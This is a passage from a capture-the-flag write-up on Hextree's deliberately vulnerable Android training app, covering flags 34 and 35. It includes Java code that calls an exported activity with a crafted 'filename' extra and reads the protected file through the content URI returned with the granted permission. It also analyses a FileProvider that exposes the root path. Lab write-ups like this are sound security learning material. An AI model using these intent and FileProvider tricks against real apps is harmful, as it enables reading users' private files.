 when it receives an intent it checks for string data under name `filename` and if it's null a preset uri to a file is used `content://io.hextree.files/secret.txt` and if there is data the uri will be created with the authority and out input name But which do we what to right?
the method used to prepare the flag suggests that it takes the flag from somewhere and then write it into `flags/flag34.txt`

#### Solution
we need to access `flags/flag34.txt` and so we will add it under `filename` and since their is a result that is being set so we will use `startActivityForResult()`

```java
Intent intent = new Intent();  
intent.putExtra("filename","flags/flag34.txt"); //you want secret so dont use it  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag34Activity"));  
startActivityForResult(intent,1);

if (requestCode == 1) {  
        Log.d("Hextree","URI: "+ data.getData().toString());  
    try {  
        InputStream inputStream = getContentResolver().openInputStream(data.getData());  
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));  
        String line ;  
        while ((line = reader.readLine()) != null) {  
            Log.d("File", "[*]" + line);  
        }  
    } catch (FileNotFoundException e) {  
        throw new RuntimeException(e);  
    } catch (IOException e) {  
        throw new RuntimeException(e);  
    }  
}
```

### Flag 35
#### Code analysis
```xml
 <provider
            android:name="io.hextree.attacksurface.providers.Flag35FileProvider"
            android:exported="false"
            android:authorities="io.hextree.root"
            android:grantUriPermissions="true">
            <meta-data
                android:name="android.support.FILE_PROVIDER_PATHS"
                android:resource="@xml/rootpaths"/>
        </provider>
```

the provider isn't exported but is has uri permissions and it's authority as `io.hextree.root` and there are some paths defined somewhere 

```xml
<paths>
    <root-path
        name="root_files"
        path="/"/>
</paths>
```
